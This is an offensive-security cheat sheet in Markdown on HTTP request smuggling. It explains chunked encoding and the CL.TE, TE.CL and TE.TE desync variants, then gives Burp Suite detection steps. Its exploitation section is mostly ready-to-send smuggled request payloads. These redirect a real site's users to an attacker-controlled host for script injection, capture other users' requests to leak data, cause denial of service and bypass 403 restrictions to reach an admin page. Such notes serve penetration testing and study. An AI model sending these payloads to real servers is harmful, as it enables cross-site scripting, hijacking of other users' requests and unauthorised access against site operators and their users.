

# Basic
- HTTP header `Connection: Keep-Alive`: Tells the server do not close the TCP connection after receiving HTTP request.
- Pipeline: The client can send multiple HTTP requests without waiting for the responses. The server follows **first-in first-out** mechanism
- HTTP header `Transfer-Encoding`: Secure transmission (No data loss) of binary data.
  - `chunked`, `compress`, `deflate`, `gzip`, `identity`
##### Chunked Transfer encoding
- The chunked transfer encoding wraps the payload body in order to transfer it as a series of chunks:
  ```
  POST /xxx HTTP/1.1
  Host: xxx
  Content-Type: text/plain
  Content-length: 20

  Wikipedia in chunks.
  ```
  ```
  POST /xxx HTTP/1.1
  Host: xxx
  Content-Type: text/plain
  Transfer-Encoding: chunked

  4\r\n
  Wiki\r\n
  5\r\n
  pedia\r\n
  b\r\n
  in chunks.\r\n
  0\r\n
  \r\n
  ```
##### HTTP Smuggling Attack
- Using the difference in HTTP message parsing between front and backend server to embed another HTTP request in a normal HTTP request to smuggle (قاچاق) it.
  - For this attack, there should be a front server and a backend server. 
  - The connection between front and backend server is not using pipelining and `keep-alive`.
  - In this attack, we can add a prefix to somepne else's request.
  ```html
  printf 'POST / HTTP/1.1\r\nHost: localhost\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 60\r\nTransfer-Encoding: chunked\r\n\r\n1\r\nZ\r\n0\r\n\r\nGET /404 HTTP/1.1\r\nhost: localhost\r\nDummy: header'

  POST / HTTP/1.1
  Host: localhost
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 60
  Transfer-Encoding: chunked

  1
  Z
  0

  GET /404 HTTP/1.1
  host: localhost
  Dummy: header
  ```

# Detection
- Use _HTTP Request Smuggler_ extension of BurpSuite to discover vulnerability.
  - Always change protocol from `HTTP/2` to `HTTP/1` in Burp Inspector.
  - Right-click on the request  →  Extensions  →  HTTP Request Smuggler  →  Smuggle probe.
  - Check the running status in **Logger**.
  - Check result in Target  →  Site map
- Send the vulnerable request to BurpSuite Repeater.
  - Always check value of `Content-Length` header. (We can seet it to be auto-correct from Repeater  →  Content-Length)
#### CL.TE 
- The front-end server uses the `Content-Length` header and the back-end server uses the `Transfer-Encoding` header.
  ```html
  POST / HTTP/1.1
  Host: YOUR-LAB-ID.web-security-academy.net
  Connection: keep-alive
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 6
  Transfer-Encoding: chunked

  0

  G
  ```    
#### TE.CL
- The front-end server uses the `Transfer-Encoding` header and the back-end server uses the `Content-Length` header.
#### TE.TE
- The front-end and back-end servers both support the `Transfer-Encoding` header, but one of the servers can be induced not to process it by obfuscating the header in some way. (Obfuscating the TE header)
  ```bash
  POST /search HTTP/1.1
  Host: example.com
  Content-Length: 33
  Transfer-Encoding: ;chunked

  0

  GET /img/i.jpg HTTP/1.1
  X:X
  ```

# Exploitation
#### 1. Discover a redirect path (by application recon like fuzz), then try adding `Host` header.
  - More details in [this](https://medium.com/@StealthyBugs/http-request-smuggling-on-business-apple-com-and-others-2c43e81bcc52) writeup.
  - In Apache, `/static/docs` will be redirected to value of `Host` header. (`Host` value will be put in `Location` header)
  - Redirect users to attacker server:
    ```bash
    POST / HTTP/1.1
    Transfer-Encoding
     : chunked
    Host: business.apple.com
    Content-Length: 67
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
  
    1
    Z
    0
  
    GET /static/docs HTTP/1.1
    Host: cvefix.ir
    X: X
    ```
  - This is not an exploit, we should inject remote JavaScript by `301`
    ```bash
    host: cvefix.ir
    x-host: cvefix.ir
    ```
    
    

  - `<script>` tag will automatically follow redirect, so we will have an XSS that doesn't need user interaction. (It's not a stored XSS)
  
#### 2. Leak the information from server, by finding reflections or any section that can save data.
  - In this example, `username` is reflected on the page.
  - We should put username at the end of parameters, then victim request, will be reflected as `username` value.
  - We should gradually increase `Content-Length: 440`, because if it is bigger than victim's request `Content-Length`, it will through error.
  ```bash
  POST / HTTP/1.1
  Host: smuggling.lab:9007
  Transfer-Encoding: chunked
  Content-Length: 162
  Connection: keep-alive

  0

  POST /login.php HTTP/1.1
  Host: smuggling.lab:9007
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 440

  password=test&submit=&username=smug
  ```
#### 3. Check if the target uses cache implementation, try cache deception.
#### 4. Try to exploit the target to do DoS (Low to Critical based on the business)
  ```bash
  POST / HTTP/1.1
  Host: YOUR-LAB-ID.web-security-academy.net
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 35
  Transfer-Encoding: chunked

  0

  GET /404 HTTP/1.1
  X-Ignore: X                                  # This line will remove "GET /xxx HTTP/1.1" from victim request
  ```
#### 5. Try to bypass `403` status code, because the restriction may be occured in the front server.
  ```bash
  POST / HTTP/1.1
  Host: icollab.info
  Transfer-Encoding: chunked
  Contetnt-Length: 33

  0

  GET /admin.php HTTP/1.1
  x:
  ```

# Resource
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Request%20Smuggling
- https://book.hacktricks.xyz/pentesting-web/http-request-smuggling
- https://book.hacktricks.xyz/pentesting-web/http-response-smuggling-desync
- https://book.hacktricks.xyz/pentesting-web/http-connection-request-smuggling
